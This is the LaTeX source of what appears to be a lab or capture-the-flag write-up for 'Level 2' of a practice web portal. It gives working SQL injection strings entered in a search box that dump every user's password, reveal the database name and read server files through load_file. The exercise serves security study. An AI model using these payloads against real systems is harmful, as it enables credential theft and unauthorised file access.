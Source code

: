 \documentclass{article}
\begin{document}
\subsection*{2. (Level 2) Find out the username-password pairs of ALL the users of this portal.}
        As we know the password of the admin,we logged in as admin in level 2.\\
        In the 'search names' box,enter this attack vector:\\
        \textbf{' union all select user,pass,null from users\#}\\
        This will just dump the name of all the users and their passwords on the page.\\
        
        \begin{figure}[H]
	      \begin{center}
		\includegraphics[width=10cm,height=8cm]{3.png}
		\caption{Passwords of users}
	      \end{center}
	\end{figure}
	
	Some other attack vectors(all tried on search name box):\\
	\textbf{(a)\space \space' union all select null,null,database()\#}\\
	           This will dump the name of the database.\\\\
	\textbf{(b)\space \space' union all select null,null,load\_file('/var/www/html/sql/2/login.php')\#}\\
	           This will load the 'login.php' files stored in the server.\\
	           Similarly we can see other files also.\\
	           By analysing these php files,we can see what kind of syntax and logic is used and
	           this will help us to design the attack vectors and also to improve them.\\
        
\end{document}
